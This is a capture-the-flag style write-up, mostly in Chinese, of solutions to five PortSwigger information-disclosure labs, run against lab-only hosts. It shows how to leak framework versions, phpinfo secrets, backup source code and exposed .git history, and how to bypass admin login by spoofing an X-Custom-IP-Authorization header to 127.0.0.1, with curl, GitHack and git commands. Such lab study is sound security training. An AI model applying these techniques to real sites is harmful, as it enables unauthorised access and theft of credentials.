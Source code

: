 # Information disclosure

## [Lab: Information disclosure in error messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages)
### 題目敘述
This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework. 
### 題目解釋
想辦法讓他噴 Error 可能可以洩漏版本號

### 解答

```
https://acf81fed1ef0e1cbc040196e00b300c0.web-security-academy.net/product?productId=asd
```

就會噴出 `Apache Struts 2 2.3.31`


## [Lab: Information disclosure on debug page](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page)
### 題目敘述
 This lab contains a debug page that discloses sensitive information about the application. To solve the lab, obtain and submit the SECRET_KEY environment variable. 
 
### 題目解釋
可以從註解之類的地方找到隱藏的目錄

### 解答
原始碼找到一行註解
```
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

裡面就有 `phpinfo` 跟 `SECRET_KEY`

## [Lab: Source code disclosure via backup files](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files)
### 題目敘述
 This lab leaks its source code via backup files in a hidden directory. To solve the lab, identify and submit the database password, which is hard-coded in the leaked source code. 
### 題目解釋
隱藏的備份檔案

### 解答

`robots.txt` 裡面有 `/backup`

裡面有一個 `java` 檔案做資料庫的連線，有寫死的密碼


## [Lab: Authentication bypass via information disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)
### 題目敘述
 This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

You can log in to your own account using the following credentials: wiener:peter 
### 題目解釋
可以用 HTTP Trace 觀察 Debug 相關資訊

### 解答

直接到 `https://acdc1f321e9f2000c07204a300cd0083.web-security-academy.net/admin` 會說 ` Admin interface only available to local users`

```
curl -X TRACE https://acdc1f321e9f2000c07204a300cd0083.web-security-academy.net/admin
```
會噴

```
X-Custom-IP-Authorization: 111.246.72.222
```


用 Burp 送，多帶一個 `X-Custom-IP-Authorization: 127.0.0.1`

就可以直接進入了，進入後台後刪除 `carlos` 使用者



## [Lab: Information disclosure in version control history](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-version-control-history)
### 題目敘述
 This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account. 
### 題目解釋
`.git` 洩漏

### 解答
一點開，瀏覽器的 [DotGit](https://addons.mozilla.org/zh-TW/firefox/addon/dotgit/) 就噴ㄌ

```
python3 GitHack.py https://ac9a1ffa1eeec69dc03b1d5c00170083.web-security-academy.net/.git
cd ac9a1ffa1eeec69dc03b1d5c00170083.web-security-academy.net/
cat admin.conf
```

會輸出

```
ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

所以密碼在環境變數中

改用 [scrabble](https://github.com/denny0223/scrabble) 來看

```
./scrabble https://ac9a1ffa1eeec69dc03b1d5c00170083.web-security-academy.net
```


輸入
```
git log
```

可以觀察到有一條 `Remove admin password from config`


還原回去上一版

```
git reset HEAD^ --hard
```

再次觀察密碼

```
cat admin.conf
```

透過取得的密碼搭配帳號 `administrator` 登入後，把 `carlos` 使用者刪掉即可過關